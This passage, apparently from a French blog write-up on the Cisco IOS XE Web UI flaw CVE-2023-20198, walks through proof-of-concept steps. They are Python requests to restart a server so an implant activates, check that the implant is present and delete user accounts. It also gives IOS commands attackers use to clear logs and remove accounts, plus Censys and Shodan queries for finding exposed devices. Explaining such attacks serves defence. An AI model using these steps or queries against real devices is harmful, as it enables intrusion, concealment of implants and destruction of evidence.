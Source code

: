 Selon le PoC, il serait nécessaire de redémarrer le service pour enregistrer la configuration de l'implant.

```py
# Restart the web server to activate the implant
restart_url = "https://target.com/webui/restart_server"

response = requests.post(restart_url, verify=False)
```

### 4. Vérifier la présence de l'implant

Une fois l'implant déposé, vous pouvez vérifier son exécution. Changez la route en fonction de la configuration de l'implant (ci-dessous exemple de l'implant récupéré).

```py
# Check for the presence of the implant
check_url = f"https://target.com/webui/logoutconfirm.html?logon_hash=1"

response = requests.get(check_url, verify=False)
```

### 5. Suppression des traces

Après avoir déposé l'implant, les attaquants suppriment leurs traces avec les commandes suivantes :

```bash
clear logging 
no username cisco_support 
no username cisco_tac_admin 
no username cisco_sys_manager
```

Il est aussi possible de le faire à travers l'interface web :

```py
# Clean up by deleting the local user account
delete_user_url = f"https://target.com/webui/delete_user/{username}"

response = requests.delete(delete_user_url, verify=False)
```

## Localisation des hôtes vulnérables 

Il est possible d'effectuer une recherche sur le moteur `Censy` avec le mot clef `services.labels=cisco-xe-webui` pour localiser des appareils fonctionant avec XE Webui.

![Alt text](/images/cisco-cve-2023-20198/2023-10-20_13-41.png)

## Protection

La recommandation faite par Cisco est de **désactiver la fonction de serveur HTTP/S** sur les systèmes accessibles sur Internet. Il n'existe pour le moment pas de correctifs.

Selon `Shodan`, il y aurait plus de 140 000 appareils vulnérables dans le monde (recherche : `http.html_hash:1076109428`)
